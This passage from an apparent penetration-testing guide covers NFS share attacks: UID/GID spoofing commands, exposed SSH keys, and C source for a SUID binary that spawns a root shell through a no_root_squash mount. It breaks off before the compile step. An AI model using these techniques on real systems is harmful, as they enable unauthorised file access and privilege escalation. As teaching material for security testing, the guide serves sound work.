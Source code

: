 Example output:

```
.
└── mnt
    └── nfs
        ├── id_rsa
        ├── id_rsa.pub
        └── nfs.share

2 directories, 3 files
```

### Common Attack Vectors

#### UID/GID Mapping Attacks

NFS maps users by UID/GID numbers, not by usernames. This can lead to permission issues or security vulnerabilities.

Example attack scenario:

1. Attacker identifies a share with `no_root_squash`
2. Attacker creates a local user with the same UID as a target user on the server
3. Attacker mounts the share and can access files with that user's privileges

```bash
# Check file ownership on mounted share
ls -la

# Create matching user on attacker system
sudo useradd -u 1000 victimuser

# Access files with matched UID
sudo -u victimuser ls -la /mnt/target-NFS/
```

#### Sensitive Information Exposure

NFS shares often contain sensitive information:

* SSH keys
* Configuration files with credentials
* Backup files
* User data

#### Remote Command Execution via NFS

If `no_root_squash` is set, an attacker can:

1. Mount the NFS share
2. Create a malicious SUID binary
3. Execute the binary on the target system to gain elevated privileges

```bash
# Create malicious SUID binary
cat << EOF > /tmp/root.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 0;
}
EOF

# Compile and set SUID bit on NFS mount
```